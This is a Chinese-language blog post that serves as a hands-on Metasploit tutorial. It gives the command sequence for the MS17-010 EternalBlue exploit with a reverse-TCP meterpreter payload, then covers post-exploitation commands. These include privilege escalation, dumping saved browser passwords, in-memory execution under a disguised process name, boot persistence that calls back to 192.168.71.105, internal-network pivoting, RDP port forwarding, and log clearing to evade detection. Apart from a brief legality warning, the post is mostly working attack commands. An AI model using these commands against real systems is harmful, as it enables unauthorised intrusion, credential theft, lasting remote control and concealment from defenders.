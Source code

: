```yaml
---
title: HackTool MSF
url: 518.html
id: 518
date: 2018-06-16 00:00:00
tags:
---
```


[](https://www.diglp.xyz/2018/06/16/HackTool_MSF/#%E5%89%8D "前")前
-----------------------------------------------------------------

MSF 是 Metasploit Framework 的缩写, 可能是最著名的安全工具,没有之一了.

> Metasploit Framework 作为一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台。它集成了各平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变得方便和简单。使用Metasploit安全测试工具在渗透测试中可以做很多事情，你可以保存你的日志、甚至定义每个有效负载在运行完成之后是如何将其自身清除的。

在这个 框架种,集成了大量的 Vector(攻击矢量), 和Payload(有效载荷), 使得渗透过程,变得简单易得.总之功能太多,这里作一个演示使用,和部分的功能,算是自己的一些总结.

* * *

*   MSF offical website
*   KALI Basic Command

[](https://www.diglp.xyz/2018/06/16/HackTool_MSF/#Do-it "Do it")Do it
---------------------------------------------------------------------

**注意,这部分内容有一定的攻击性,务必在法律允许范围内使用** 演示的话,就使用闹起轩然大波的 **MS17-010** 来吧, 方法简单, 效果粗暴. 如果我同样 把它称为, **永恒之蓝**, 估计就熟悉的多了.

    use exploit/windows/smb/ms17_010_eternalblue    # 攻击矢量set payload windows/meterpreter/reverse_tcp        # 有效载荷set rhost x.x.x.x    # 目标主机set lhost x.x.x.x    # 本地监听主机            exploit# 经过若干过程,得到shell

所以,可见,在MSF的框架里,对于一个exp的利用是变得如此的简单了. **基本术语**

*   攻击矢量 利用去渗透系统的东西
*   有效载荷 目标主机上实现可以利用的SHELL
*   反向连接 使得目标主机去主动链接我们的主机
*   正向链接 在目标主机开放端口,使得我们可愈长进行连接

[](https://www.diglp.xyz/2018/06/16/HackTool_MSF/#%E8%BF%9B%E9%98%B6-Shell-%E5%8A%9F%E8%83%BD "进阶 Shell 功能")进阶 Shell 功能
-----------------------------------------------------------------------------------------------------------------------

在 MSF 这个框架里面,其自带的 meterpreterde 这个 Shell, 功能是十分强大了 .自带了是有相当多的功能.这里只是简单的总结其中的部分了.

1.  shell 执行远程计算机的本地shell cmd
2.  getwd 当前目录
3.  upload / download 上传下载
4.  portfwd 实现端口转发, 比如 3389 不开外网,可以使用转发
5.  getgui -e 打开目标主机的 远程桌面  
    可以使用, rdesktop 进行远程桌面连接.
6.  route 扫描目标主机的路由表
7.  getuid 目标主机 shell 当前用户组
8.  sysinfo 目标主机的系统信息
9.  migrate 线程注入, 把shell的进程注入到其他的进程的远程线程中,  
    可能实现提权, 提高连接稳定性,不容易dead , 一般注入为, explorer.exe
10.  execute 目标主机上执行程序, -f 指定文件 , -H 可以使得后台执行, -i 实现交互模式. execute -H -m -d notepad.exe -f wce.exe -a “-o wce.txt”  
    -d 在目标主机执行时显示的进程名称（用以伪装）  
    -m 直接从内存中执行  
    “-o wce.txt”是wce.exe的运行参数  
    实现远程内存执行
    
11.  enum_drives 枚举驱动器
    
12.  checkvm 检测是否虚拟机
13.  persistence 权限维持 这个功能比较重要, persistence -X\[开机自启\] -i 5\[间隔\] -p 4444 -r 远程控制主机 从而实现, 开机启动,及自动的连接远程主机
    
14.  metsvc 一样的是权限维持, 实现了一个正向连接
    
15.  getsystem 实现系统提权
16.  enum_applications 枚举目标主机的所装软件
17.  dumplinks 目标主机近期的访问记录
18.  enum_ie 枚举IE的保存密码
19.  route 目标主机作为跳板,实现内网渗透.
20.  clearev 清除环境,和日志,以便逃跑

[](https://www.diglp.xyz/2018/06/16/HackTool_MSF/#%E8%BF%9B%E9%98%B6%E5%8A%9F%E8%83%BD%E4%BD%BF%E7%94%A8 "进阶功能使用")进阶功能使用
------------------------------------------------------------------------------------------------------------------------

* * *

*   持久化控制
    
    *   使用 metsvc 服务启动建立正向连接服务
        
        *   使用其建立,一个正向链接,开放目标主机的端口,以便我们的控制链接,使用 metsvc\_bind\_tvp
            
                > run metvc -A> set payload windows/metsvc_bind_tcp
            

    -  persistence 启动项启动建立反向连接    -  运行 persistence 脚本让系统开机自启动 Meterpreter (-X)，10秒 (-i 10) 重连一次，使用端口为 6666(-p 6666)，连接的目的IP为 192.168.71.105             run persistence -X -i 10 -p 6666 \             -r 192.168.71.105  

* * *

*   内网渗透 在拿下目标主机之后, 把其作为跳板,进行更加深入的内网渗透.  
    外网的我们,我们无法直接向其内网中其他主机发起攻击，则可以借助已产生的meterpreter会话作为路由跳板，攻击内网其它主机。
    
    *   得到目标路由表
        
            > run get_local_subnets
        
        得到目标主机的路由表, 网段,和掩码
        
            > route print
        
    *   添加路由
        
        *   把目标主机作为一级路由, 使得我们可以进行目标主机子网域的渗透
            
                route add  192.168.249.0 255.255.255.0 5
            
            上面的是目标主机的 网段和掩码
            
    *   后渗透
        
        *   之后就可以对目标主机的子网进行渗透.

* * *

*   Payload 类型 对于Payload 的链接类型有 正向连接和反向连接。
    
    *   reverse_tcp Payload
        
            payload/windows/meterpreter/reverse_tcp
        
        反向连接，目标主机，对攻击机进行主动的连接
        
    *   bind_tcp Payload
        
            payload/windows/meterpreter/bind_tcp
        
        正向连接，因为在内网跨网段时无法连接到攻击主机，所以在内网中经常会使用。开放端口，等待攻击机连接。
        
    *   reverse_http/https Http 请求，实现异步，不需要进行TCP的长连接， 对于经常断线，网络不好情况。
        

* * *

*   端口转发 对于一些 目标端口，不对公网开开放， 我们进行端口转发，进行绕过。 portfrd
    
        portfwd add -l 4444 -p 3389 -r 127.0.0.1
    

[](https://www.diglp.xyz/2018/06/16/HackTool_MSF/#%E5%90%8E "后")后
-----------------------------------------------------------------

总之，msf 实在是神器，还有许许多多的功能，需要探索。提交进核心代码库也是理想吧。